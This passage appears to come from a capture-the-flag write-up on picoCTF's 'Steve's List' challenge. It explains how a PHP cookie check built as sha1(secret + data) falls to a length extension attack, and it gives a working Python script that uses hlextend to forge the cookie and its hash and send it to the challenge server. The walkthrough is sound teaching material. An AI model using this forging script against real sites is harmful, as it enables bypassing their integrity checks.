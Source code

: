 *Quick note: `setcookie()` also does a urlencode, which is why we see a slightly different answer in our cookie. However, this is the correct value*

Line 5 of the same file is of key importance to us.

```php
  4     $custom_settings = urldecode($_COOKIE['custom_settings']);
  5     $hash = sha1(AUTH_SECRET . $custom_settings);
  6     if ($hash !== $_COOKIE['custom_settings_hash']) {
  7       die("Why would you hack Section Chief Steve's site? :(");
  8     }
```

Ah! So we are taking the cookie value in `custom_settings`, prepending the `AUTH_SECRET` and performing a sha1 hash. This screams to us, **LENGTH EXTENSION ATTACK**. For more details on this technique, [click here](http://en.wikipedia.org/wiki/Length_extension_attack).

Essentially, if we know the input data, the resulting hash, and the hash type, we can append malicious code to the initial data and receive a hash that will pass the given test. To do the hash calculation, we will utilize [hlextend](https://github.com/stephenbradshaw/hlextend).

To prove this, let's test hlextend.

```python
import hlextend
import requests
import subprocess

def php_urlencode(s):
    '''Return php urlencoded string'''
    print "ENCODE: " + s
    s = s.replace("\x00", "\0")
    encode_php = "<?php $text = <<<EOD\n{}\nEOD;\necho urlencode($text);\n?>".format(s)

    with open('encode_me.php', 'w') as f:
        f.write(encode_php)

    output = subprocess.check_output('php encode_me.php', shell=True)
    return output

url = 'http://steveslist.picoctf.com'
original_hash = '2141b332222df459fd212440824a35e63d37ef69'
original_data = 'b:1;'
appended_data = 'pwned'
key_length = 8

# Get our new hash for our new data
sha = hlextend.new('sha1')
cookie = sha.extend(appended_data, original_data, key_length, original_hash)
cookie_hash = sha.hexdigest()

# Send a request with our new cookie to verify our method works
output = php_urlencode(cookie)
cookies = {'custom_settings_hash': cookie_hash,
           'custom_settings': output}
print requests.get(url, cookies=cookies).text
```
